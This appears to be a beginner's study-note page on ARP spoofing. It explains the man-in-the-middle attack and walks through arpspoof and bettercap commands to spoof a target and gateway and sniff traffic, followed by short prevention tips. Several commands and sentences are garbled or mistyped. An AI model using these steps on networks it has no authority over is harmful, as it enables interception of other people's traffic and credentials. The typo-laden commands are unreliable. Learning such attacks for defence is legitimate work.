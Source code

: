 1. Port Security – Limits the no of MAC addresses connecting to a single  port on the Switch. ``switch port-security maximum 5`` used for limit users. 
2. MAC Filtering – Limits the no of MAC addresses to a certain extent.
## ARP Spoof
- ARP translates Internet Protocol (IP) addresses to a Media Access Control (MAC) address
- Most commonly, devices use ARP to contact the router or gateway that enables them to connect to the Internet.
- An ARP spoofing, also known as ARP poisoning, is a Man in the Middle (MitM) attack that allows attackers to intercept communication between network devices.
- The attack works as follows:
a) . The attacker must have access to the network. They scan the network to determine the IP addresses of at least two devices—let’s say these are a workstation and a router. 
b) . The attacker uses a spoofing tool, to send out fake ARP responses. 
c) . The fake responses advertise that the correct MAC address for both IP addresses, belonging to the router and workstation, is the attacker’s MAC address.
-  This fools both router and workstation to connect to the attacker’s machine, instead of to each other.
d) . The two devices update their ARP cache entries and from that point onwards, communicate


with the attacker instead of directly with each other.
e. The attacker is now secretly in the middle of all communications
#### lets try this 
1) install Arpspoof usinng   ``sudo apt install arpspoof``
2) opean your terminal and run this command  `` Arpspoof -i interface -t target -r defaultgatewayip``
3) Example            ``Arpspoof -iwlam0  -t 192.168.10.3 -r 192.68.47.1``
4)  After typing this command opean your wire shrak
   ### lets try using another tool
1) install bettercap using ``sudo apt install bettercap``
2) Start bettecap
3) Scan the network
a) ``net.probe on`` on using bettercap terminal used to capture get on your Wi-Fi network you can get i[
b) ``net.show `` => to see the network in  table form and select your target ip 
4) Start arp spoofing
a) ``set arp.spoof.targets <ip>`` Example ``set arp.spoof.targets 192.168.75.5`` and press Enter
b) ``arp.spoof on`` used to on spoofing 
5) Start Mitm  we wiil trying it donot worry 
a)`` net.sniff on`` used for capture all browsing data it have jus like wire sharck log  anlisies 
b) ``net.sniff off``  used to turn off sniffing network
…

## Prevention 
1. Using static ARP tables: manually setted
2. Switch security: some feature for ARP poisoning
3. Encryption: not for arp but in case of leaks
